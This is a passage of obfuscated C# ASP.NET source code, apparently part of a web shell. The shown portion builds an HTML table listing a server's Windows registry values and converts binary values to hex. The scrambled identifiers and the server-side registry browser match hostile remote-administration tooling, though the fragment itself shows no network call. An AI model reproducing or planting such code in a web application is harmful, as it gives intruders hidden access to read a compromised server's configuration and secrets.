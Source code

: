 JlmW.Attributes["height"]="5";
cKVA.Cells.Add(JlmW);
pLWD.Rows.Add(cKVA);
foreach(string strValueName in sk.GetValueNames())
{
tr=new TableRow();
tc=new TableCell();
bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tc.Width=Unit.Parse("40%");
tc.Text=strValueName;
tr.Cells.Add(tc);
tc=new TableCell();
tc.Width=Unit.Parse("60%");
tc.Text=DdmPl(sk,strValueName);
tr.Cells.Add(tc);
pLWD.Rows.Add(tr);
}
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public string DdmPl(RegistryKey sk,string strValueName)
{
object uPZ;
string RaTGr="";
try
{
uPZ=sk.GetValue(strValueName,"NULL");
if(uPZ.GetType()==typeof(byte[]))
{
foreach(byte tmpbyte in(byte[])uPZ)
{
if((int)tmpbyte&lt;16)
{
RaTGr+="0";
}
RaTGr+=tmpbyte.ToString("X");
}
}
else if(uPZ.GetType()==typeof(string[]))
{
foreach(string tmpstr in(string[])uPZ)
{
RaTGr+=tmpstr;
}
}
else
{
RaTGr=uPZ.ToString();
}
}
catch(Exception error)
{
xseuB(error.Message);
}
return RaTGr;
}
public void vNCHZ()
{